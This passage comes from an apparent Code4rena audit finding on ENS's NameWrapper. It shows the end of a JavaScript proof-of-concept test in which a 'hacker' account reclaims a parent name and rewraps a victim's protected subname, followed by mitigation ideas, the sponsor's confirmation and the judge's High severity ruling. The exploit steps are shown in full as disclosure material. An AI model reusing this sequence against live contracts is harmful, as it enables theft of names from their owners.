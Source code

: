 ```js
      // create `sub2.sub1.eth` to the victim user with `PARENT_CANNOT_CONTROL`
      // burnt.
      await NameWrapperH.setSubnodeOwner(
        wrappedTokenId1,
        label2,
        account2,
        PARENT_CANNOT_CONTROL | CANNOT_UNWRAP,
        MAX_EXPIRY
      )
      expect(await NameWrapper.ownerOf(wrappedTokenId2)).to.equal(account2)

      // XXX: reclaim the `EnsRegistry.owner` of `sub1.eth` as the hacker
      await BaseRegistrarH.reclaim(labelHash1, hacker)
      expect(await EnsRegistry.owner(wrappedTokenId1)).to.equal(hacker)
      expect(await BaseRegistrar.ownerOf(labelHash1)).to.equal(hacker)

      // reset the `EnsRegistry.owner` of `sub2.sub1.eth` as the hacker
      await EnsRegistryH.setSubnodeOwner(wrappedTokenId1, labelHash2, hacker)
      expect(await EnsRegistry.owner(wrappedTokenId2)).to.equal(hacker)

      // wrap `sub2.sub1.eth` to re-claim as the owner
      await EnsRegistryH.setApprovalForAll(NameWrapper.address, true)
      await NameWrapperH.wrap(encodeName('sub2.sub1.eth'), hacker, EMPTY_ADDRESS)
      expect(await NameWrapper.ownerOf(wrappedTokenId2)).to.equal(hacker)
    })
```

### Recommended Mitigation Steps

May need to discuss with ENS team. A naive patch is to check whther a given ETH2LD node is indeed wrapped every time we operate it. However, it is not gas-friendly.

**[jefflau (ENS) confirmed](https://github.com/code-423n4/2022-11-ens-findings/issues/16)**

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2022-11-ens-findings/issues/16#issuecomment-1343480679):**
 > The Warden has shown how, because of the migration period, with two controller registrar being active at the same time, a malicious attacker could claim sub-nodes that belong to other people.
> 
> In contrast to an external requirement that is vague, the Sponsor has made it clear that a similar setup will happen in reality, and because of the impact, I agree with a High Severity.
> 
> It may be worth exploring a "Migration Registry", which maps out which name was migrated, while allowing migration to move only in one way.

**[izhuer (warden) commented](https://github.com/code-423n4/2022-11-ens-findings/issues/16#issuecomment-1343708426):**
 > The corresponding [patch](https://github.com/ensdomains/ens-contracts/pull/162) looks valid. 
> 
> I was trying to find a more gas-efficient (w/o tricky code) mitigation patch but did not get lucky yet. I will let Sponsor know here if I figure it out.
